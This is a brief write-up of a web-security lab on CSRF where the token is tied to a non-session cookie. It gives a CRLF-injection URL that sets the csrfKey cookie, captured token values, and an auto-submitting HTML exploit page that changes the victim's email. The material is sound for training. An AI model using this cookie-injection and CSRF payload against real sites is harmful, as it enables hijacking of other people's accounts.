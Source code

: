 # Lab: CSRF where token is tied to non-session cookie

- Can set cookie through -> `https://ac0b1fb11ffe2a02c0fd0789002c0073.web-security-academy.net/?search=pwnersec%3b%0d%0aSet-Cookie%3a%20test=test1234`
- Valid `csrfKey` cookie -> `mu4CiMyLRbt2FriL6JMdnR2wycT9c68W`
- Associated `csrf` token -> `9lrPwdDLCMeuQngJvd9P7ZBs9JsAlACu`

- Exploit ->

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
	<img src="https://ac0b1fb11ffe2a02c0fd0789002c0073.web-security-academy.net/?search=pwnersec%3b%0d%0aSet-Cookie%3a%20csrfKey=mu4CiMyLRbt2FriL6JMdnR2wycT9c68W" />
    <form action="https://ac0b1fb11ffe2a02c0fd0789002c0073.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="root&#64;pwnersec&#46;hacks" />
      <input type="hidden" name="csrf" value="9lrPwdDLCMeuQngJvd9P7ZBs9JsAlACu" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- Email address successfully changed to `root@pwnersec.hacks`.

